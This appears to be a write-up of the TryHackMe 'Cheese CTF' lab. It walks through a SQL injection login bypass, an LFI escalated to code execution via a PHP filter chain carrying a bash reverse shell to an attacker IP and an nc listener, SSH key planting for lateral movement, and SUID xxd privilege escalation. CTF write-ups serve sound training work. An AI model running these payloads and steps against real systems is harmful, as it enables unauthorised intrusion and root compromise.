




# Cheese CTF write-up : 



## Part1 - recon 

Overview : 



Informations 
- [ ] robots.txt file
- [x] Login page
- [ ]  Form page
- [x]  Email adress : info@thecheeseshop.com

a comment in the code gives us a hint about where we maybe should look:
```html 
    <li><a href="login.php">Login</a></li> <!-- Added login link -->
```

We can see with a 404 error that the webserver running on Apache/2.4.41 (Ubuntu) Server at 10.10.179.135 Port 80 (**not vulnerable**)

### Nmap recon : 

Noting relevant...

### Gobuster scan :

```bash
✗ gobuster dir -u http://10.10.179.135/ -w ../../../../Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.179.135/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../../../Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.10.179.135/images/]
/server-status        (Status: 403) [Size: 278]
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing relevant...

## Part2 - Login page attack

We found nothing accurate apart the login page. Let exploit it...
First, we will perform a sql injection attack :

We use the following wordlist : [sql-login-bypass.md](https://github.com/Ramzansmith/hacktricks-xyz/blob/master/pentesting-web/login-bypass/sql-login-bypass.md)

we found that we can bypass the login form with this payload: `' OR 'x'='x'#;`


## Part3 - Admin dashboard

Then, we have access to the admin dashboard : 


We have access to tree panel : 
- Orders
- Messages
- Users 

We have only blank page when visiting the Orders and Users panel.

On the message panel, while clicking on the mes `message!` button, we can see a LFI vulnerabilitie into the url : 

`http://10.10.179.135/secret-script.php?file=php://filter/resource=messages.html`

Let's try to get the passwd file : 



We found a LFI !!! 

The particularity of this LFI is that it use a php filter (`php://filter`)

We will use the following script : 


The PHP Filter Chain Generator exploits a vulnerability where an attacker can manipulate PHP's file inclusion functions (like include or require) by injecting a crafted filter chain. This allows the attacker to execute arbitrary PHP code on the server without uploading any files, leading to Remote Code Execution (RCE). The vulnerability arises from improper input validation and sanitization, enabling the attacker to control the included file's content through complex filter chains.

> Ressource link [here](https://medium.com/@sundaeGAN/php-wrapper-and-lfi2rce-81c536ef7a06)

**STEP 1 :**

Create the payload :
```bash 
python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.9.1.235/1234 0>&1\"'); ?>" 
```

**STEP 2 :**

Start the listener:
``` 
nc  -lvnp 1234 
```

**STEP 3:**
Inject the payload into the url : 
`http://10.10.114.208/secret-script.php?file=php://filter/convert.iconv.UTF8.CSISO2022Kiconv[......]rt.decode/resource=php://temp`

And you will get a reverse shell.

## Part3 - Exploit the reverse shell

we are logged as www-data. We can't access to the user flag.

when we list the `/home/comte`we find that .ssh directory have strange rights. 
Let's see how we can pivot.

```bash
www-data@cheesectf:/home/comte/.ssh$ ls -la
ls -la
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys
```

we can modify the `authorized_keys` and put our ssh public key.

```bash
www-data@cheesectf:/home/comte/.ssh$ echo "ssh-ed2..." >> authorized_keys
```

Then, we can etablish a ssh connection as comte user and get the user flag.

```bash
ssh comte@10.10.114.208 
comte@cheesectf:~$ ls
snap  user.txt
comte@cheesectf:~$ cat user.txt 
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⣶⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⠋⠀⠉⠛⠻⢶⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠟⠁⣠⣴⣶⣶⣤⡀⠈⠉⠛⠿⢶⣤⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⡿⠃⠀⢰⣿⠁⠀⠀⢹⡷⠀⠀⠀⠀⠀⠈⠙⠻⠷⣶⣤⣀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠋⠀⠀⠀⠈⠻⠷⠶⠾⠟⠁⠀⠀⣀⣀⡀⠀⠀⠀⠀⠀⠉⠛⠻⢶⣦⣄⡀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠟⠁⠀⠀⢀⣀⣀⡀⠀⠀⠀⠀⠀⠀⣼⠟⠛⢿⡆⠀⠀⠀⠀⠀⣀⣤⣶⡿⠟⢿⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⡿⠋⠀⠀⣴⡿⠛⠛⠛⠛⣿⡄⠀⠀⠀⠀⠻⣶⣶⣾⠇⢀⣀⣤⣶⠿⠛⠉⠀⠀⠀⢸⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⠟⠀⠀⠀⠀⢿⣦⡀⠀⠀⠀⣹⡇⠀⠀⠀⠀⠀⣀⣤⣶⡾⠟⠋⠁⠀⠀⠀⠀⠀⣠⣴⠾⠇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡿⠁⠀⠀⠀⠀⠀⠀⠙⠻⠿⠶⠾⠟⠁⢀⣀⣤⡶⠿⠛⠉⠀⣠⣶⠿⠟⠿⣶⡄⠀⠀⣿⡇⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣶⠟⢁⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⠾⠟⠋⠁⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⣼⡇⠀⠀⠙⢷⣤⡀
⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⣾⡏⢻⣷⠀⠀⠀⢀⣠⣴⡶⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣷⣤⣤⣴⡟⠀⠀⠀⠀⠀⢻⡇
⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⠀⠀⠙⠛⢛⣋⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠁⠀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⠀⠀⣠⣾⠟⠁⠀⢀⣀⣤⣤⡶⠾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣤⣤⣤⣤⣤⡀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⣠⣾⣿⣥⣶⠾⠿⠛⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣶⠶⣶⣤⣀⠀⠀⠀⠀⠀⢠⡿⠋⠁⠀⠀⠀⠈⠉⢻⣆⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠛⠉⠁⠀⢀⣠⣴⣶⣦⣀⠀⠀⠀⠀⠀⠀⠀⣠⡿⠋⠀⠀⠀⠉⠻⣷⡀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀⠀⠘⣿⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠀⠀⠀⣴⡟⠋⠀⠀⠈⢻⣦⠀⠀⠀⠀⠀⢰⣿⠁⠀⠀⠀⠀⠀⠀⢸⣷⠀⠀⠀⢻⣧⠀⠀⠀⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⢿⡆⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⣸⡟⠀⠀⠀⠀⠙⢿⣦⣄⣀⣀⣠⣤⡾⠋⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⠘⣿⣄⣀⣠⣴⡿⠁⠀⠀⠀⠀⠀⠀⢿⣆⠀⠀⠀⢀⣠⣾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠉⠉⠀⠀⠀⣀⣤⣴⠿⠃
⠀⠸⣷⡄⠀⠀⠀⠈⠉⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠻⠿⠿⠛⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⡶⠟⠋⠉⠀⠀⠀
⠀⠀⠈⢿⣆⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⣶⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢨⣿⠀⠀⠀⠀⠀⠀⣼⡟⠁⠀⠀⠀⠹⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣠⡾⠋⠀⠀⠀⠀⠀⠀⢻⣇⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢠⣾⠋⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣤⣤⣤⣴⡿⠃⠀⠀⣀⣤⣶⠾⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⣀⣠⣴⡾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⡇⠀⠀⠀⠀⣀⣤⣴⠾⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢻⣧⣤⣴⠾⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠘⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀

THM{9f2ce3df1be......}
```

## Part4- Privilege escalation 

We can run as sudo few commands related to the exploit systemd service :

```bash
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

The exploit service is not running due to an error into the `exploit.timer` file 

We need to put the OnBootSec variable to a value, for example ...=5sec

After resolve this error, we can inspect the service file `exploit.service`

Then, start the service :

```bash
comte@cheesectf:~$ sudo /usr/bin/systemctl start /tmp/cheese.service
```

As we can see, the service copy a binary named xxd to /opt and give to him the SUID privileges. But because his owner is root, we can run it as root.

Let's see how we can exploit it with the [GTFOBIN](https://gtfobins.github.io/) website.



Now, we can get the root flag using these instructions : 

```bash
comte@cheesectf:~$ LFILE=/root/root.txt
comte@cheesectf:~$ /opt/xxd "$LFILE" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{dca754........}
```